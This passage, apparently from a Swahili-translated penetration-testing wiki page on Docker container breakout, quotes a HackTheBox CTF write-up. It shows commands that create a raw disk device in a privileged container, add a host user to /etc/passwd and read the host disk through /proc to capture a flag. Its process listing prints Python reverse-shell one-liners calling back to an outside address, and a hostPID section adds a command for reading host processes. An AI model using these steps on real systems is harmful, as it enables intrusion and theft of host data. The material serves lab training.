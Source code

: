 Mfano wa **Udanganyifu** kutoka kwenye [**maandishi haya**](https://radboudinstituteof.pwning.nl/posts/htbunictfquals2021/goodgames/):
```bash
# On the container as root
cd /
# Crate device
mknod sda b 8 0
# Give access to it
chmod 777 sda

# Create the nonepriv user of the host inside the container
## In this case it's called augustus (like the user from the host)
echo "augustus:x:1000:1000:augustus,,,:/home/augustus:/bin/bash" >> /etc/passwd
# Get a shell as augustus inside the container
su augustus
su: Authentication failure
(Ignored)
augustus@3a453ab39d3d:/backend$ /bin/sh
/bin/sh
$
```

```bash
# On the host

# get the real PID of the shell inside the container as the new https://app.gitbook.com/s/-L_2uGJGU7AVNRcqRvEi/~/changes/3847/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#privilege-escalation-with-2-shells user
augustus@GoodGames:~$ ps -auxf | grep /bin/sh
root      1496  0.0  0.0   4292   744 ?        S    09:30   0:00      \_ /bin/sh -c python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
root      1627  0.0  0.0   4292   756 ?        S    09:44   0:00      \_ /bin/sh -c python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
augustus  1659  0.0  0.0   4292   712 ?        S+   09:48   0:00                          \_ /bin/sh
augustus  1661  0.0  0.0   6116   648 pts/0    S+   09:48   0:00              \_ grep /bin/sh

# The process ID is 1659 in this case
# Grep for the sda for HTB{ through the process:
augustus@GoodGames:~$ grep -a 'HTB{' /proc/1659/root/sda
HTB{7h4T_w45_Tr1cKy_1_D4r3_54y}
```
### hostPID

Ikiwa unaweza kupata michakato ya mwenyeji utaweza kupata habari nyeti iliyohifadhiwa katika michakato hiyo. Tekeleza mtihani wa maabara:
```
docker run --rm -it --pid=host ubuntu bash
```
Kwa mfano, utaweza kuorodhesha michakato inayotumia kitu kama `ps auxn` na kutafuta maelezo nyeti katika amri.
